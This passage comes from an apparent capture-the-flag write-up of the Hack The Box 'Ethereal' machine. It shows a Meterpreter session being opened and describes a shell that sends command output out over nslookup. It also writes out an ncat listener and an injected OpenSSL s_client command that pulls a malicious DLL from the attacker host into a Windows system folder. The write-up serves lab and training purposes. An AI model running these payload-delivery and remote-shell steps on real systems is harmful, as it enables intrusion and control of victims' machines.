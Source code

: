 

When I run `cmd /c a.bat`, my terminal disappears. And I get a
connection at Metasploit:



    [*] Meterpreter session 1 opened (10.1.1.41:136 -> 10.1.1.153:54720) at 2019-03-12 21:20:54 -0400
    msf5 > sessions -i 1
    [*] Starting interaction with 1...

    meterpreter > getuid
    Server username: HACKSIES\0xdf



## Ethereal Meterpreter

### Overview

I'll be using [my Ethereal
shell](https://gitlab.com/0xdf/ctfscripts/tree/master/htb-ethereal)
(check out the [post on writing
it](/htb-ethereal-shell.md)), so this is just after initial
RCE and finding OpenSSL. Rather than get the shell by combining two
OpenSSL connections, I'll use OpenSSL to upload the dll and the bat
script, and then run it.

The shell will run commands entered thought a for loop that sends
results over `nslookup`. If I enter `quiet` before the command, it will
run the command directory through the injection, with no output back.

### Upload Beryllium

I'll use
[Beryllium.dll](https://github.com/attl4s/pruebas/blob/master/Beryllium.dll)
from HackPlayers. I'll serve it with `ncat` as follows:



    ncat --ssl --send-only --ssl-key key.pem --ssl-cert cert.pem  -lvp 73 < Beryllium.dll



Now I'll tell Ethereal to get it:



    ethereal> quiet c:\progra~2\openss~1.0\bin\openssl.exe s_client -quiet -connect 10.10.14.14:73 > c:\windows\servicing\packages\df.dll



I get the connection on `ncat`:



    root@kali# ncat --ssl --send-only --ssl-key key.pem --ssl-cert cert.pem  -lvp 73 < Beryllium.dll
    Ncat: Version 7.70 ( https://nmap.org/ncat )
    Ncat: Listening on :::73
    Ncat: Listening on 0.0.0.0:73
    Ncat: Connection from 10.10.10.106.
    Ncat: Connection from 10.10.10.106:49713.
    root@kali# 
